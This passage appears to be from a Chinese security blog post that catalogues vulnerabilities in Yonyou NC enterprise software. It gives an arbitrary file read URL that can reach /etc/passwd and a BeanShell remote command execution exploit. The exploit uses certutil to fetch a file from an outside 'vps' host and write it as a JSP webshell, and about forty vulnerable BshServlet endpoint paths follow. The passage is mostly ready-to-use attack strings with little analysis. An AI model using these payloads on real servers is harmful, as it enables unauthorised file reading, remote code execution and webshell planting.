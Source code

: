 

## 0x03 漏洞整理

### 3.1 任意文件读取

`filename`参数可以读取下列所有文件，在某些情况下可以读取利用目录穿越可读取/etc/passwd等文件

```
http://x.x.x.x/NCFindWeb?service=IPreAlertConfigService&filename=/
```

![image-20220420110517903](https://fastly.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420110517903.png)

### 3.2 `bsh.servlet.BshServlet` 远程命令执行漏洞

用友 `NC bsh.servlet.BshServlet` 存在远程命令执行漏洞，通过 `BeanShell` 执行远程命令获取服务器权限。

exp：

```
exec("cmd.exe /c  certutil -urlcache -split -f http://vps/ccc.txt  webapps/nc_web/aa.jsp");
```

poc:

```
http://x.x.x.x/service/~aim/bsh.servlet.BshServlet
http://x.x.x.x/service/~alm/bsh.servlet.BshServlet
http://x.x.x.x/service/~ampub/bsh.servlet.BshServlet
http://x.x.x.x/service/~arap/bsh.servlet.BshServlet
http://x.x.x.x/service/~aum/bsh.servlet.BshServlet
http://x.x.x.x/service/~cc/bsh.servlet.BshServlet
http://x.x.x.x/service/~cdm/bsh.servlet.BshServlet
http://x.x.x.x/service/~cmp/bsh.servlet.BshServlet
http://x.x.x.x/service/~ct/bsh.servlet.BshServlet
http://x.x.x.x/service/~dm/bsh.servlet.BshServlet
http://x.x.x.x/service/~erm/bsh.servlet.BshServlet
http://x.x.x.x/service/~fa/bsh.servlet.BshServlet
http://x.x.x.x/service/~fac/bsh.servlet.BshServlet
http://x.x.x.x/service/~fbm/bsh.servlet.BshServlet
http://x.x.x.x/service/~ff/bsh.servlet.BshServlet
http://x.x.x.x/service/~fip/bsh.servlet.BshServlet
http://x.x.x.x/service/~fipub/bsh.servlet.BshServlet
http://x.x.x.x/service/~fp/bsh.servlet.BshServlet
http://x.x.x.x/service/~fts/bsh.servlet.BshServlet
http://x.x.x.x/service/~fvm/bsh.servlet.BshServlet
http://x.x.x.x/service/~gl/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrhi/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrjf/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrpd/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrpub/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrtrn/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrwa/bsh.servlet.BshServlet
http://x.x.x.x/service/~ia/bsh.servlet.BshServlet
http://x.x.x.x/service/~ic/bsh.servlet.BshServlet
http://x.x.x.x/service/~iufo/bsh.servlet.BshServlet
http://x.x.x.x/service/~modules/bsh.servlet.BshServlet
http://x.x.x.x/service/~mpp/bsh.servlet.BshServlet
http://x.x.x.x/service/~obm/bsh.servlet.BshServlet
http://x.x.x.x/service/~pu/bsh.servlet.BshServlet
http://x.x.x.x/service/~qc/bsh.servlet.BshServlet
http://x.x.x.x/service/~sc/bsh.servlet.BshServlet
http://x.x.x.x/service/~scmpub/bsh.servlet.BshServlet
http://x.x.x.x/service/~so/bsh.servlet.BshServlet
http://x.x.x.x/service/~so2/bsh.servlet.BshServlet
http://x.x.x.x/service/~so3/bsh.servlet.BshServlet
```